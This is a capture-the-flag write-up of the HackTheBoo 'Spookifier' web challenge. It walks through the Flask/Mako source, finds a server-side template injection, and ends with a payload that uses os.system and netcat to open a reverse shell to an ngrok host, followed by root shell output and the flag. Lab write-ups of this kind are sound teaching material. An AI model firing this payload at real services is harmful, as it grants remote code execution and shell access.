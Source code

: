 # Spookifier

## Background

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

> Difficulty: Easy

- Overall difficulty for me: Very easy

**In this challenge, we can spawn a docker instance and [download a file](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Web/Spookifier/web_spookifier.zip):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Web/Spookifier/images/a1.png)

```
┌──(root🌸siunam)-[~/ctf/HackTheBoo/Web/Spookifier]
└─# unzip web_spookifier.zip           
Archive:  web_spookifier.zip
   creating: web_spookifier/
   creating: web_spookifier/challenge/
  inflating: web_spookifier/challenge/run.py  
   creating: web_spookifier/challenge/application/
   creating: web_spookifier/challenge/application/static/
   creating: web_spookifier/challenge/application/static/images/
  inflating: web_spookifier/challenge/application/static/images/vamp.png  
   creating: web_spookifier/challenge/application/static/css/
  inflating: web_spookifier/challenge/application/static/css/index.css  
  inflating: web_spookifier/challenge/application/static/css/nes.css  
   creating: web_spookifier/challenge/application/blueprints/
  inflating: web_spookifier/challenge/application/blueprints/routes.py  
  inflating: web_spookifier/challenge/application/util.py  
   creating: web_spookifier/challenge/application/templates/
  inflating: web_spookifier/challenge/application/templates/index.html  
  inflating: web_spookifier/challenge/application/main.py  
   creating: web_spookifier/config/
  inflating: web_spookifier/config/supervisord.conf  
  inflating: web_spookifier/build-docker.sh  
 extracting: web_spookifier/flag.txt  
  inflating: web_spookifier/Dockerfile
```

## Find the flag

**In the `routes.py`, we can see a route in `/`:**
```py
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

**Let's break it down!**

- It has a GET parameter called `text`
- `coverted` = `spookify()` function in `util.py`
- **Render a `index.html` template, and output the `converted` value**
- If no `text` GET parameter given, then render `index.html`

**Hmm... Rendering a template, maybe it's vulnerable to SSTI (Server-Side Template Injection)?**

**Since the `coverted` variable is using a function from `util.py`, let's look at that!**
```py
from mako.template import Template

"""
Bunch of sniped fonts are defined in here.
"""

def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts

def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```

**In this python script, if we supply `text` GET parameter in `/`, it'll render 4 fonts.**

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Web/Spookifier/images/a2.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Web/Spookifier/images/a3.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Web/Spookifier/images/a4.png)

**Armed with the above information, we can try some SSTI payloads!**

**According to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako), we can use this payload:**
```py
${x}
```

**Let's test it is vulnerable to SSTI or not!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Web/Spookifier/images/a6.png)

**Yes!! It's indeed vulnerable to SSTI!**

**Now, let's get reverse shell!**

To do so, I'll:

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/…/Spookifier/web_spookifier/challenge/application]
└─# nc -lnvp 9001
listening on [any] 9001 ...
```

- Use `ngork` for port forwarding:

```
┌──(root🌸siunam)-[~/…/Spookifier/web_spookifier/challenge/application]
└─# ngrok tcp 9001
[...]
Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    tcp://0.tcp.ap.ngrok.io:15113 -> localhost:9001
[...]
```

- Send the payload!

```py
${self.module.cache.util.os.system("nc 0.tcp.ap.ngrok.io 15113 -e /bin/sh")}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Web/Spookifier/images/a7.png)

```
┌──(root🌸siunam)-[~/…/Spookifier/web_spookifier/challenge/application]
└─# nc -lnvp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48422
whoami;hostname;id;ip a
root
ng-spookifier-sfu0z-855798d4f6-4mdww
uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
12469: eth0@if12470: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 8a:0a:07:bb:1c:ec brd ff:ff:ff:ff:ff:ff
    inet 10.244.2.96/32 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::880a:7ff:febb:1cec/64 scope link 
       valid_lft forever preferred_lft forever
```

**Boom! We're in! Let's get the flag!**
```
cat /flag.txt
HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
```

# Conclusion

What we've learned:

1. Server-Side Template Injection (SSTI) in Python's Flask Mako